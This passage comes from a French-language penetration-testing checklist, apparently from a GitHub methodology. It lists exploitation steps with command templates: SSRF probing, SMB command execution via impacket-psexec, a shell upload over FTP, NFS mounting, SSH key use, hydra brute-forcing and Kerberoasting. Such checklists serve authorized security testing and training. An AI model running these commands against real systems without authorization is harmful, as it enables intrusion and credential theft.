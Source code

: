   - [ ] Exploiter les vulnérabilités SSRF
    ```bash
    # Tester l'accès à des services internes
    curl -s "http://<ip>/page.php?url=http://localhost:8080/admin"
    ```
    > *Question*: Pouvez-vous accéder à des services internes non exposés?

- [ ] **Exploitation des services de fichiers**
  - [ ] Exploiter SMB
    ```bash
    # Utiliser psexec pour exécuter des commandes
    impacket-psexec <username>:<password>@<ip>
    ```
    > *Question*: Avez-vous des identifiants valides pour SMB?
  
  - [ ] Exploiter FTP
    ```bash
    # Si l'upload est possible, uploader un shell et l'exécuter
    ```
    > *Question*: Pouvez-vous uploader et exécuter des fichiers via FTP?
  
  - [ ] Exploiter NFS
    ```bash
    # Monter un partage NFS
    mount -t nfs <ip>:/share /mnt/nfs
    ```
    > *Question*: Pouvez-vous monter des partages NFS et y accéder?

- [ ] **Exploitation des services d'authentification**
  - [ ] Exploiter SSH
    ```bash
    # Si vous avez une clé privée
    chmod 600 id_rsa
    ssh -i id_rsa user@<ip>
    ```
    > *Question*: Avez-vous trouvé des clés SSH privées?
  
  - [ ] Exploiter des identifiants faibles
    ```bash
    hydra -L users.txt -P passwords.txt ssh://<ip>
    ```
    > *Question*: Avez-vous une liste d'utilisateurs potentiels?
  
  - [ ] Exploiter Kerberos (Windows)
    ```bash
    # Kerberoasting
    impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>:<password>
    ```
    > *Question*: Avez-vous des identifiants de domaine valides?
